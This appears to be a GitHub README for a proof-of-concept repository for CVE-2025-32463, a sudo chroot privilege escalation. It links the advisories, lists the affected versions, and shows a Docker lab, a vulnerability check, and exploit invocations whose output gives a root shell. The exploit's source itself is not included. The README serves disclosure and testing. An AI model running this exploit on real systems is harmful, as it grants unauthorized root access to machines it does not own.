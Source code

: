 <translate-content># CVE-2025-32463 – sudo chroot ("chwoot") PoC

This repository provides a minimal, reproducible environment to demonstrate the **CVE‑2025‑32463** privilege‑escalation flaw in `sudo`’s chroot feature.
- This vulnerability is reported by [Rich Mirch](https://www.stratascale.com/team/rich-mirch) ([@0xm1rch](https://x.com/0xm1rch) on X) @ [Stratascale](https://www.stratascale.com/).
- Original post: [Vulnerability Advisory: Sudo chroot Elevation of Privilege](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD: [CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463) (CVSS 9.3)

---

## Affected Versions

> Vulnerable builds of **sudo 1.9.14** up to **1.9.17** (all p‑revisions) on most Linux distributions are affected.

Security Pages
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463) (CVSS 9.3)
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463) (CVSS 7.8)
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html) (CVSS 7.8)
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## Contents

| File               | Purpose                                                                            |
| ------------------ | ---------------------------------------------------------------------------------- |
| **Dockerfile**     | Builds an Ubuntu 24.04 image with vulnerable **sudo 1.9.16p2** and build tools     |
| **sudo‑chwoot.sh** | Proof‑of‑concept exploit that spawns a root shell inside the chroot                |
| **run.sh**         | Helper script that builds the image (if needed) and launches the exploit container |

---

## Quick vulnerability check
```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## Test exploit in Docker container


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` passes `--privileged` and `--rm` to Docker so the container cleans itself up when you exit.

---

## Clean Up

Remove the image when you’re done:


```bash
docker rmi sudo-chwoot
```
---

## Reference

- Stratascale CRU vulnerability note: [Vulnerability Advisory: Sudo chroot Elevation of Privilege](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---